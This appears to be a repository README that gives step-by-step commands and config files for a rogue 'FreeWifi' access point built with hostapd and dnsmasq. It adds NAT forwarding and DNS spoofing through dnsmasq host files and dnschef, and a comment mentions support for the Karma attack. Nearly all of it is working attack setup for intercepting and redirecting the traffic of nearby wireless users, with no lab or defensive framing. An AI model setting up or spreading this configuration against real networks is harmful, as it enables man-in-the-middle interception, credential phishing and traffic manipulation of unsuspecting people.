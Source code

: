 
## Installing and Configuring the Access Point

### VM Configuration (If applicable)

Set the Network Adapter for the guest OS to `Bridged (Autodetect)`.  


## Install hostapd and dnsmasq  
```
sudo apt update && sudo apt install -y hostapd dnsmasq wireless-tools iw wvdial

```
## /etc/hostapd/hostapd.conf                          
*Change the wireless interface name accordingly*
```
# cat /etc/hostapd/hostapd.conf 
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=1
# Yes, we support the Karma attack.
#enable_karma=1
```

## /etc/dnsmasq.conf
*Change the wireless interface name accordingly*
```
cat /etc/dnsmasq.conf      
log-facility=/var/log/dnsmasq.log
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
#no-resolv
log-queries
```

## Interface IP commands
*Change the wireless interface name accordingly*
```
sudo ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
sudo ifconfig wlan0 mtu 1400
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## IPtable Rules
*Change the interface names accordingly*  
*wlan0 = AP / eth0 = internet*

```
sudo iptables --flush
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state ESTABLISHED,RELATED -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## Disable Network Manager
```
sudo systemctl stop NetworkManager.service
```

## Start the Services
```
sudo /etc/init.d/hostapd start
sudo /etc/init.d/dnsmasq start
```

## DNS Spoofing with dnsmasq
```
# add list of ip and host addresses to a file.  The file should follow the /etc/hosts format
sudo echo 127.0.0.1 example.com > /etc/spoof.hosts

# Modify /etc/dnsmasq.conf to point to the file
sudo echo addn-hosts=/etc/spoof.hosts >> /etc/dnsmasq.conf

# restart dnsmasq
sudo /etc/init.d/dnsmasq restart
```

## To run dnschef instead of dnsmasq

```
echo DNSMASQ_OPTS="-p0" >> /etc/default/dnsmasq
sudo /etc/init.d/dnsmasq restart
dnschef -i 10.0.0.1
```
## DNS Spoofing with dnschef
```
dnschef -i <interface> --fakedomains <domain.com> --fakeip <IP>
```


